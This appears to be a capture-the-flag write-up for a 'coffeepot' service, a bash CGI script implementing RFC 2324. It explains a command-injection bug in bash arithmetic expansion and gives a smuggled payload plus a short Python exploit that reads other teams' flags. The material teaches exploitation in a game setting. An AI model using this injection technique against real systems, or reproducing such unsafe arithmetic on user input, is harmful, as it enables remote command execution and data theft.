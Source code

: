 Service info
------------

The coffeepot service implements Hyper Text Coffee Pot Control Protocol, which described in RFC 2324, published in 1 april 1998.

It allows to start and stop coffee brewing and add some ingridients to the drink, such as rum, almond, milk, whiskey or flags.

The service is a tiny CGI-script, written in bash. A patched web-server called Mongoose listens port 3255 and launches the script.

![Screenshot](coffeepot.png)

Bugs
----

As readme states, there is no known bugs in the web-server.

The main and only known bug is in this line of CGI-script:  
    
    echo "${addition}:$((count+1))" >> "pots/${pot}.new"

The **$((count+1))** looks harmless, but it is not.

Expoitation
-----------

To exploit the bug, the attacker could send this value as initial ingridient count:  
    
    a[$(cat pots/* |grep Flag > pots/pot-1234)]

Then, the attacker asks the service to add one more ingridient and the command is executed.

The exploit:

    import sys
    import random
    import requests
    
    PAYLOAD = "Rum:a[$(cat pots/* |grep Flag > pots/pot-1234)]"
    
    host = sys.argv[1]
    pot = random.randrange(10**10, 10**20)
    uri_1 = "http://%s:3255/pot-%s" % (host, pot)
    
    requests.post(uri_1, headers={"Accept-Additions": PAYLOAD})
    requests.put(uri_1, headers={"Addition": "Rum"})
    
    uri_2 = "http://%s:3255/pot-%s" % (host,1234)
    resp = requests.request("PROPFIND", uri_2)
    print(resp.text)`
